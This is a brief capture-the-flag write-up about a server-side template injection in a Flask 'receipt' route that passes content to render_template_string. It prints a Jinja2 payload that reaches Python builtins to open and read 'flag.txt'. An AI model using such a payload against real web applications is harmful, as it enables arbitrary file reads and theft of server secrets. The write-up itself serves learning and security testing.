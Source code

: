 ## Writeup

![image](./challenge.png)

There is a [SSTI](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/18-Testing_for_Server-side_Template_Injection) attack possible inside `src/app/routes/store.py` in `receipt` view.
```
# src/app/routes/store.py
def receipt():
...
    try:
        return render_template_string(template)
    except Exception as e:
        flash(f"An error occurred: {str(e)}", "danger")
        return render_template_string(f"<p>Receipt could not be processed: {str(e)}</p>")
```

`render_template_string` is vulnearable to it and I just want to share a great post about it covering all external links and resources https://medium.com/@Fcmam5/ctf-as-a-developer-pt-1-template-engines-ssti-b03c59e2c095.

We can reach to builtins and call open function with returning its content
```
{{ request.application.__globals__.__builtins__.open("flag.txt").read() }}
```
